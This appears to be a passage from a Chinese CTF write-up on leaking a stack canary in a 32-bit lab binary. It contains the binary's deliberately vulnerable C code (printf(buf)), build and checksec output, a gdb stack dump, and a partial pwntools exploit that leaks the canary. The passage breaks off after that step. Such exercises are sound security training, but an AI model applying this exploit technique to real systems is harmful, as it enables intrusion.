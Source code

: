 ```c
        read(0, buf, 0x200);
        printf(buf);
    }
}
int main(void) {
    init();
    puts("Hello Hacker!");
    vuln();
    return 0;
}
```

编译：

```
gcc -m32 -no-pie -g -o canary1 canary1.c
```

查看保护

```
dililearngent@dililearngent-virtual-machine:~/Desktop/CTF/pwn/stack/canary$ checksec canary1
[*] '/home/dililearngent/Desktop/CTF/pwn/stack/canary/canary1'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

首先gdb调试一下，由于buf只有100，在readline发送时会加上0a，所以这里输入的时候输入99个a，这样就不会将0a溢出至canary

```
pwndbg> stack 50
00:0000│ esp 0xffffcf30 —▸ 0xf7fb2d20 (_IO_2_1_stdout_) ◂— 0xfbad2887
01:0004│     0xffffcf34 ◂— 0x0
02:0008│ ecx 0xffffcf38 ◂— 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\n'
... ↓        23 skipped
1a:0068│     0xffffcf98 ◂— 'aaa\n'
1b:006c│     0xffffcf9c ◂— 0xd2b3ec00                         //canary
1c:0070│     0xffffcfa0 —▸ 0x804a010 ◂— 'Hello Hacker!'
1d:0074│     0xffffcfa4 —▸ 0x804c000 (_GLOBAL_OFFSET_TABLE_) —▸ 0x804bf08 (_DYNAMIC) ◂— 0x1
1e:0078│ ebp 0xffffcfa8 —▸ 0xffffcfb8 ◂— 0x0
1f:007c│     0xffffcfac —▸ 0x804936d (main+58) ◂— 0xb8
20:0080│     0xffffcfb0 —▸ 0xffffcfd0 ◂— 0x1
```

可以发现每次进程启动的canary值都不一样；现在需要将canary的值泄露出来，因为这里存在栈溢出和格式化字符串漏洞，这样可以将canary当作buf的一部分进行输出

构造exp：

```
#-*- codingLutf-8 -*-
from pwn import *

context(os='linux',arch='i386',log_level='debug')
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
p = process('./canary1')
e = ELF('./canary1')
get_shell = e.sym['getshell']
#1 leak canary
p.recvuntil('Hello Hacker!')
payload = 'a'*100
p.sendline(payload)

p.recvuntil('a'*100)
canary = u32(p.recv(4))-0xa
```